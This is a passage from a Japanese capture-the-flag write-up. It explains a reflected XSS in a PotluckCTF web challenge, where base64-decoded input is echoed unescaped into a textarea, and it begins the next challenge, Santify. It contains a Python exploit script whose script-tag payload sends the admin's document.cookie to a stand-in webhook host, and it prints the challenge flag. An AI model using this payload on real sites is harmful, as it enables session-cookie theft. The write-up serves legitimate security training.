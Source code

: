 `input` で受け取った入力を `encoding` の値に従って変換するようです。
ここで、`$input` は `input` クエリを base64 デコードした値です。

```php
$input = base64_decode($_GET["input"]);
```

また、この `$input` の値は以下の箇所で `<textarea>` 内にエスケープ無しで展開されます。

```php
<textarea name="input" id="form-input" placeholder="Enter text to encode here"><?php if (isset($input)) echo $input; ?></textarea>
```

以上より、`input` クエリに `</textarea><script>...</script><textarea>` を base64 エンコードした値を当てはめた URL を Admin に踏ませれば良さそうです。

以下の Python スクリプトを実行することで、`WEBHOOK` に指定された URL に FLAG 付きのリクエストが送信されました。

```python
import requests
import base64

URL = "http://challenge11.play.potluckctf.com:31337"
WEBHOOK = "https://your-webhook.example"

payload = base64.b64encode("</textarea><script>location.href='{}?'+document.cookie</script><textarea>".format(WEBHOOK).encode())

res = requests.post(URL + "/admin", json={
    'url': URL + "?encoding=foo&input={}".format(payload.decode())
})
```

Flag: `potluck{uu_make_me_go_crazy}`

## [Web] Santify

クリスマスカードが作成できるWebアプリケーションが提供されました。

説明文にあるように、`$` で数式を囲むことで、PDFLaTeX によって数式が描画されるようです。
